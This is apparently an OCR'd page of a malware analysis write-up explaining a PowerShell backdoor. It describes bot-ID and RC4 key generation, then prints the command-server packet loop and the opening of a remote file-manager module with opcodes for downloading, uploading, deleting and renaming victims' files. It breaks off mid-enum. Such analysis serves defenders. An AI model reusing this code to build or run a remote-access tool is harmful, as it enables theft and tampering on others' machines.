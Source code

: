 	- Creates a MD5 hash object 
	- The IPv4 and MAC adsress is concatenated together and hashed.
	- This hash is converted into string and hyphens are removed from the string and stored in **$StrUniqueId**
	- RC4 key generation is done by appending "_r" to the **$StrUniqueId** and "_s" for decryption.
	- Keys are prepared and stored in a global variable respectively for encryption and decryption.
	- A structure for messsage sending and receiving is being defined here and the message containing the unique ID is sent to server using socket stream.
	
#### Packet Recieving
	
```powershell
#Recieve Packets from Server and Send to Server Result.
        $ReadBuffer = New-Object Byte[] 4196;
        $ContinueFlag = $True;
        $ping_send = New-Object Byte[] 1;
        $Tick = 0;
        While($ContinueFlag)
        {
            Start-Sleep -Milliseconds 1;
            if( ($Tick -eq 0) -or ($API::GetTickCount() - $Tick -gt 1000) ) {
                try {
                    $send_result = $Socket.Client.Send($ping_send);
                    if( $send_result -eq 0 ) {
                        Write-Host "Disconnected from Server[1]!!!";
                        $ContinueFlag = $false;
                    }
                } catch [Exception] {
                    Write-Host "Disconnected from Server[0]!!!";
                    $ContinueFlag = $false;
                }

                $Tick = $API::GetTickCount();
            }
```
As the name suggests it continuously recieves data from the server and sends a ping every second to maintain the connection. If there's any issue in the ping then stops the connection.

#### RemoteFileManager
```powershell

Function RemoteFileManager
{
    Add-Type -TypeDefinition @"
    using System;
	using System.Diagnostics;
	using System.Runtime.InteropServices;
	using System.Security.Principal;

    [Flags]
    public enum _OP_CODE : ushort
    {
	    OP_UNIQ_ID		 =	0x401,
	    OP_REQ_DRIVE_LIST    =	0x402,
	    OP_RES_DRIVE_LIST    =	0x403,
	    OP_REQ_PATH_LIST     =	0x404,
	    OP_RES_PATH_LIST     =	0x405,
	    OP_REQ_PATH_DOWNLOAD =	0x406,
	    OP_RES_PATH_DOWNLOAD =	0x407,
	    OP_REQ_PATH_DELETE   =	0x408,
	    OP_RES_PATH_DELETE   =	0x409,
	    OP_REQ_FILE_UPLOAD   =	0x40A,
	    OP_RES_FILE_UPLOAD   =	0x40B,
	    OP_REQ_PATH_RENAME   =	0x40C,
	    OP_RES_PATH_RENAME   =	0x40D,
```